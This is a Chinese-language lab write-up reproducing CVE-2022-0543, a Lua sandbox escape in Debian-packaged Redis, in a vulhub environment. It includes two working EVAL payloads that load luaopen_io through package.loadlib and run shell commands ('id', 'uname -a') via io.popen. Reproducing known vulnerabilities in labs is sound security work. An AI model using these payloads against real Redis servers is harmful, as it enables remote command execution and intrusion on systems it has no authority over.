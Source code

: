 # 0x01 原理浅析
Debian及其衍生版打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象中的loadlib函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0中的导出函数luaopen_io，执行这个导出函数获得io库，最后使用其执行命令

# 0x02 漏洞复现
使用p牛的vulhub搭建环境：https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  
搭建好的环境是redis 5.0.7，且存在未授权访问  
执行如下payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![image](./pic/01.png)  

# 0x03 参考文章
https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce  
https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  